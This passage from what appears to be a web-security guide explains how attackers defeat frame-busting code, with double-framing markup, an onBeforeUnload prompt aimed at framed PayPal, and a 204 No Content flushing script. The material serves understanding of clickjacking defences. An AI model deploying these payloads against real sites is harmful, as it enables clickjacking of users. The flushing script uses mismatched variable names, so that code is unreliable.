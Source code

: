 ```
    if(top.location != self.location) {         parent.location = self.location;
    } 
```
 **Attacker top frame:**
 
```
    <iframe src="attacker2.md"> 
```
 **Attacker sub-frame:**
 
```
    <iframe src="http://www.victim.com"> 
```
 ### The onBeforeUnload Event
 A user can manually cancel any navigation request submitted by a framed
page. To exploit this, the framing page registers an `onBeforeUnload` handler which is called whenever the framing page is about to be
unloaded due to navigation. The handler function returns a string that becomes part of a prompt displayed to the user.
 Say the attacker wants to frame PayPal. He registers an unload handler
function that returns the string \"Do you want to exit PayPal?\". When this string is displayed to the user is likely to cancel the navigation,
defeating PayPal\'s frame busting attempt. 
The attacker mounts this attack by registering an unload event on the top page using the following code:
 
```
    <script>         window.onbeforeunload = function(){
            return "Asking the user nicely";         }
    </script> 
    <iframe src="http://www.paypal.com"> 
```
 PayPal\'s frame busting code will generate a `BeforeUnload` event
activating our function and prompting the user to cancel the navigation event.
 ### No-Content Flushing
 While the previous attack requires user interaction, the same attack can
be done without prompting the user. Modern browsers enable an attacker to automatically cancel the incoming navigation request in an
`onBeforeUnload` event handler by repeatedly submitting a navigation request to a site responding with \"*204 - No Content*\".
 Navigating to a No Content site is effectively a NOP, but flushes the
request pipeline, thus canceling the original navigation request. Here is sample code to do this:
 
```
    var preventbust = 0     window.onbeforeunload = function() { killbust++ }
    setInterval( function() {         if(killbust > 0){
        killbust = 2;         window.top.location = 'http://nocontent204.com'
        }     }, 1);
```
 
```
     <iframe src="http://www.victim.com">
```
 